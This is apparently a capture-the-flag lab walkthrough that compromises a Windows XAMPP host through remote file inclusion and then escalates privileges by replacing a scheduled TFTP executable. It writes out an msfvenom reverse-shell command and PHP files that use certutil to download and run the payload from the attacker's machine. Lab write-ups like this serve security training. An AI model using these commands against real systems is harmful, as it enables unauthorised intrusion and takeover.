Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.164.53
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-15 14:15 IST
Nmap scan report for 192.168.164.53
Host is up (0.100s latency).
Not shown: 65520 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
4443/tcp  open  pharos
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8080/tcp  open  http-proxy
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 15.03 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 21,135,139,445,3306,4443,5040,7680,8080,49664,49665,49666,49667,49668,49669 192.168.164.53
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-15 14:17 IST
Nmap scan report for 192.168.164.53
Host is up (0.11s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql         MariaDB 10.3.24 or later (unauthorized)
4443/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.164.53:4443/dashboard/
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
8080/tcp  open  http          Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.164.53:8080/dashboard/
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-03-15T08:50:07
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 177.62 seconds
```

Visiting web server on port 4443, 8080.


Directory brute forcing on port 4443 and 8080.


/site looks interesting. It redirects us to another webpage which potentially can contain a LFI vulnerability.

We can verify that the LFI vulnerability exists.

It’s also a good practice to check for RFI since it’s easier to carry out. Lucky for us, in this case we can. Started a local web server and loaded this url.


First we need to create the reverse shell that we will have the victim download from our Kali instance. We will use port 4443 to avoid egress issues on the Windows machine.
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.170 LPORT=4443 -f exe -o reverse.exe
```

Next we need to create two PHP files that we will be able to execute via curl (thanks to the allow_url_fopen setting spotted in phpinfo). We can call them step1.php and step2.php.

Step1.php
```sh
<?php 
$exec = system('certutil.exe -urlcache -split -f "http://192.168.45.170/reverse.exe" reverse.exe', $val); 
?>
```

Step2.php
```sh
<?php 
$exec = system('reverse.exe', $val); 
?>
```


You should have all your files together.

Then we need to set up a python file server to host our files from this directory.


Next we need to set up a listener to catch our reverse shell on port 4443. Use rlwrap to preserver your arrow functionality upon connection.

Finally we will start curling the two PHP files. This will both retrieve and execute our PHP files.


Check the file server.

Then our listener and we got the shell.

Captured local flag.

### Privilege Escalation:

We see an interesting directory in C called backup. It contains info.txt which says the script TFTP is executed every 5 mins.



Replacing our reverse shell payload with this TFTP executable. If it gets executed with SYSTEM privileges, we’ll get a reverse shell in 5 minutes

After waiting for 5 minutes We catch a reverse shell with admin privileges.



**Here, we can achieve the admin shell by creating another reverse shell with same msfvenom command but on different port and then trasnfering it to the same folder where our TFTP.EXE is located using certutil.**
